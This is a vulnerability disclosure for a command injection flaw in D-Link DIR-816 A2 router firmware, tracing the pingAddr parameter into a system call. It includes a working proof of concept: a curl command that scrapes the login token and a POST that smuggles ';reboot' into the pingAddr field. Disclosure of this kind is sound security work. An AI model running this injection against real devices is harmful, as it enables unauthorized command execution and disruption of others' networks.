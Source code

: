 # Dlink DIR-816 Command injection vulnerability
## Overview
- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
There is an Command injection vulnerability in Dlink DIR-816A2_FWv1.10CNB05, which can execute arbitrary command in route system.

## Affected version

![](pic/version.png "")

Figure shows the latest firmware ：A2_FWv1.10CNB05 of the router
## Vulnerability details
The hardware version can be found is A2 1.10 on the web.

![](pic/web.png "")

In goahead, we can find the code details in sub_45AC4C,the program passes the contents obtained by the pingAddr parameter to V2.

![](pic/code1.png "")

Then, format the matching content of V2 through the snprintf function into V10.

![](pic/code2.png "")

The V10 parameter is called by the function doSystembk().  
There is a command injection vulnerability.  

## Vulnerability exploitation condition
Need to get cookie to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following shell command

Poc is as follows
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1;reboot'
```

After running poc, the effect is as follows: the router restarts, and there is no connection to the router.
![](pic/effect1.png "")


## CVE-ID
unsigned
